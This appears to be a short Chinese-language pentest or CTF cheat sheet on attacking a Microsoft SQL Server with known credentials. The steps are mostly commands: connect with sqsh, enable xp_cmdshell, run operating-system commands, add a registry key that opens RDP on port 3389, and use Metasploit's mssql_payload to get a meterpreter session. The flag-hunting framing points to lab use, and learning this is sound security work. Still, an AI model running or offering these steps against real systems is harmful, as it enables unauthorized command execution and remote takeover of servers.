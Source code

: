 

以下内容的前提是有 *mssql* 的账号密码，且能成功登录。

***sqsh*** 

1. 配置 */etc/freetds/freetds.conf*

```bash
[mssql]
host = x.x.x.x
port = 1433
tds version = 7.0
```

2. 编辑或新增 *~/.sqshrc*

```bash
\set username=sa
\set password=password
\set style=vert
```

3. 连接对应的数据库

```bash
$ sqsh -S mssql
```

4. 在 *sqsh* 交互式的界面下查看 *mssql* 的数据库列表

```bash
SELECT name FROM master..sysdatabases
GO
```

5. 启用 *xp_cmdshell* （版本低于 *SQL Server 2005* 的 *mssql* 默认启用）

```bash
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

6. 执行命令

```bash
xp_cmdshell 'dir c:\'
go
```

7. 权限足够大的前提下有两种思路获得相关 *flag*
   - 远程桌面登录，开启 3389 端口（*xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'*）
   - 使用 *windows/mssql/mssql_payload* 获取 *meterpreter session*

### ChangeLog

- 190714 init